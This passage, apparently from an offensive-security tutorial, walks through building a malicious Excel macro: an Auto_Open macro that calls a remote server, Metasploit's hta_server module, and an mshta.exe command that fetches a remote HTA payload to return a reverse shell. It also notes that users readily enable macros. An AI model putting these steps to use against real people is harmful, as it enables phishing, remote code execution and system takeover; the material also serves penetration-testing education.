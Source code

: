 
After saving this document as an xlsm (Excel Macro-Enabled Document) and upon reopening it, we should see a call out to our remote web server attempting to retrieve the file “passwd”.

  

![](https://lh6.googleusercontent.com/H4wCXMLnfohIf-h2VwG00w9IVjWZ7BLa-Sk1wgSckb9Ju72C_XdjBJ0ejfo6KHpRt3RM6EHY_yasqcuY6abS2KnKZ46Ea_fZD4ig-iYRlsSJn_sGNv1vMHLly1hDLQ9qcXsESWrc)

Microsoft Excel Prompting the User to Accept Use of Macros

  
### But what, what's this?

Microsoft has added a feature where the user must authorize Macros to be executed on the document to help protect the end-user. Fortunately, most people just don’t care and will click “Enable Content” or have the “Allow All Macros” setting enabled by default.

  
After pressing “Display Content” we can see the request come into our web server as expected:


![](https://lh5.googleusercontent.com/T47r4YFH8skHVVnXD1GIRmGBxo-ATLCrIEyt3-fZElbEqmqjfgMIRSVtOXwSGKobzQwkFnazx2YNZf1r8rgIlFdWiffNeta6RnT3scFExpBzFRrA-e1Sz_DVowCNi4AeXRsTtxcN)  


After Accepting Macros, the Macro Reaches Out to an HTTP Server

### Creating a Malicious Macro

Now that you are more familiar with creating a Macro and utilizing the Auto\_Open feature within Office Products, we can dive into creating and generating malicious Macros.

First, we will start off by manually creating a macro. We will be re-using the code from the previous section as our base, and we will also be utilizing Metasploit’s HTA Server to gain a reverse shell.

To set up Metasploit’s HTA Server for payload delivery you will need to use the module exploit/windows/misc/hta\_server as seen in the screenshot below:


![](https://lh3.googleusercontent.com/ohs4o9V4K2gQHAt7fSPlaSRiCH9lxcrTE34Von3K8nPL_VeaIGiYKQRV9kqCQYMJJ3qD0rdY1dbv8vvXlH7NMyMPlrdavLit1t6fJPTDybFkG_ajcigNkqV7LzHuHudbZMNNa97f)  


### Starting Metasploit’s HTA Server for Remote Payload Delivery

  
The URL containing the “Local IP” (In this case: https://192.168.100.128:8080/c94O6fz.hta) is the server that will deliver the payload to the unsuspecting victim. At the moment, we only have a URL that will deliver a payload, so how does this get executed on the machine? 

Simply reaching out to the remote server won’t cause the payload to fire, because it’s not an executable (It’s a .hta). We can use mshta.exe (A built-in executable on Windows devices that’s used to aid in script execution with HTML applications) to execute the file on the remote server and return a shell. You can do this by calling mshta.exe followed by the URL of the Payload Delivery server, ex. https://192.168.100.128:8080/c94O6fz.hta, so the full command would look as follows.

`mshta.exe https://192.168.100.128:8080/c9406fx.hta`    

If we simply change our previous command in our “Hello World” Macro from Invoke-WebRequest to the command above (Remember, your IP address will be different), we will have a reverse shell returned.
